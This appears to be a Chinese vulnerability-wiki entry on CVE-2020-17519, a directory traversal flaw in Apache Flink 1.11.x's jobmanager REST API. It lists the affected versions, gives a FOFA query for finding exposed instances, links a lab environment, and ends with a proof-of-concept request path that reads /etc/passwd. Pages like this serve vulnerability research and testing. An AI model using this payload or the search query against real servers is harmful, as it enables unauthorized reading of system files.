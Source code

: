 ```yaml
---
title: Apache Flink jobmanager 目录遍历漏洞 CVE-2020-17519
---
```


# Apache Flink jobmanager 目录遍历漏洞 CVE-2020-17519

## 漏洞描述
2021年01月06日，360CERT监测发现Apache Flink发布了Apache Flink 目录穿越漏洞,目录穿越漏洞的风险通告，漏洞编号为CVE-2020-17518,CVE-2020-17519，漏洞等级：高危，漏洞评分：8.5。
远程攻击者通过REST API目录遍历，可造成文件读取/写入的影响。
## 漏洞影响
<a-checkbox checked>Apache Flink 1.11.0</a-checkbox></br>
<a-checkbox checked>Apache Flink 1.11.1</a-checkbox></br>
<a-checkbox checked>Apache Flink 1.11.2</a-checkbox></br>

## 网络测绘
<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGUgRmxpbmsi">FOFA: app="Apache Flink"</a-button>
</a-checkbox>

## 环境搭建

<a-alert type="success" message="https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519" description="" showIcon>
</a-alert>

</br>

![06d235d4-965d-44e0-91c0-dc69b97bf48d](/assets/PeiQi-Wiki/img/06d235d4-965d-44e0-91c0-dc69b97bf48d.png)

## 漏洞复现
验证POC

```shell
/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![a87cedc1-5a40-42bb-a377-9bdb03fad242](/assets/PeiQi-Wiki/img/a87cedc1-5a40-42bb-a377-9bdb03fad242.png)

